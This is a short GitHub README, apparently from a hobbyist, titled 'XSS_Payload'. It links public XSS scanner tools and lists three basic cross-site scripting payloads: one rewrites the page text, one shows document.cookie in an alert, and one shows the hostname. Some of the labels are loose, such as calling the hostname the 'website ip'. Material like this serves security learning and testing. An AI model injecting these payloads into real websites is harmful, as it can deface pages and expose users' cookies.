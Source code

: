 # XSS_Payload
perfect xss payload stored and reflected and dom and some change in the page


<div class="markdown-heading" dir="auto"><h5 tabindex="-1" class="heading-element" dir="auto">Overview :</h5><a id="user-content-overview-" class="anchor" aria-label="Permalink: Overview :" href="#overview-"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path d="m7.775 3.275 1.25-1.25a3.5 3.5 0 1 1 4.95 4.95l-2.5 2.5a3.5 3.5 0 0 1-4.95 0 .751.751 0 0 1 .018-1.042.751.751 0 0 1 1.042-.018 1.998 1.998 0 0 0 2.83 0l2.5-2.5a2.002 2.002 0 0 0-2.83-2.83l-1.25 1.25a.751.751 0 0 1-1.042-.018.751.751 0 0 1-.018-1.042Zm-4.69 9.64a1.998 1.998 0 0 0 2.83 0l1.25-1.25a.751.751 0 0 1 1.042.018.751.751 0 0 1 .018 1.042l-1.25 1.25a3.5 3.5 0 1 1-4.95-4.95l2.5-2.5a3.5 3.5 0 0 1 4.95 0 .751.751 0 0 1-.018 1.042.751.751 0 0 1-1.042.018 1.998 1.998 0 0 0-2.83 0l-2.5 2.5a1.998 1.998 0 0 0 0 2.83Z"></path></svg></a></div>



<a target="_blank" rel="noopener noreferrer nofollow" href="https://camo.githubusercontent.com/dc249353b0a6e10635deb6d3414b5d6095886795bf022e14e049b20255207d8b/68747470733a2f2f696d672e736869656c64732e696f2f6769746875622f73746172732f7061796c6f6164626f782f7873732d7061796c6f61642d6c6973743f7374796c653d736f6369616c"><img src="https://camo.githubusercontent.com/dc249353b0a6e10635deb6d3414b5d6095886795bf022e14e049b20255207d8b/68747470733a2f2f696d672e736869656c64732e696f2f6769746875622f73746172732f7061796c6f6164626f782f7873732d7061796c6f61642d6c6973743f7374796c653d736f6369616c" data-canonical-src="https://img.shields.io/github/stars/payloadbox/xss-payload-list?style=social" style="max-width: 100%;"></a>


<div class="markdown-heading" dir="auto"><h4 tabindex="-1" class="heading-element" dir="auto">XSS Vulnerability Scanner Tool's :</h4><a id="user-content-xss-vulnerability-scanner-tools-" class="anchor" aria-label="Permalink: XSS Vulnerability Scanner Tool's :" href="#xss-vulnerability-scanner-tools-"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path d="m7.775 3.275 1.25-1.25a3.5 3.5 0 1 1 4.95 4.95l-2.5 2.5a3.5 3.5 0 0 1-4.95 0 .751.751 0 0 1 .018-1.042.751.751 0 0 1 1.042-.018 1.998 1.998 0 0 0 2.83 0l2.5-2.5a2.002 2.002 0 0 0-2.83-2.83l-1.25 1.25a.751.751 0 0 1-1.042-.018.751.751 0 0 1-.018-1.042Zm-4.69 9.64a1.998 1.998 0 0 0 2.83 0l1.25-1.25a.751.751 0 0 1 1.042.018.751.751 0 0 1 .018 1.042l-1.25 1.25a3.5 3.5 0 1 1-4.95-4.95l2.5-2.5a3.5 3.5 0 0 1 4.95 0 .751.751 0 0 1-.018 1.042.751.751 0 0 1-1.042.018 1.998 1.998 0 0 0-2.83 0l-2.5 2.5a1.998 1.998 0 0 0 0 2.83Z"></path></svg></a></div>

<p dir="auto"><a href="https://github.com/UltimateHackers/XSStrike">XSStrike</a></p>

<p dir="auto"><a href="https://github.com/shawarkhanethicalhacker/BruteXSS">BruteXSS Terminal</a></p>

<p dir="auto"><a href="https://github.com/rajeshmajumdar/BruteXSS">BruteXSS GUI</a></p>

<p dir="auto"><a href="http://xss-scanner.com/" rel="nofollow">XSS Scanner Online</a></p>

<p dir="auto"><a href="https://tools.kali.org/web-applications/xsser" rel="nofollow">XSSer</a></p>

<p dir="auto"><a href="https://github.com/DanMcInerney/xsscrapy">xsscrapy</a></p>

<p dir="auto"><a href="https://github.com/v8blink/Chromium-based-XSS-Taint-Tracking">Cyclops</a></p>


# Payloads



<code>
<script>document.body.innerHTML = document.body.innerHTML.replace("XSS Playground", "I am a hacker");</script> to change the main web page text  (STORED)
</code>

<code>
<script>alert(document.cookie);</script> to show your cookie (DOM)
</code>
<code>
<script>alert('cuurnnt url: ' + window.location.hostname)</script> (show the website ip) reflected
</code>
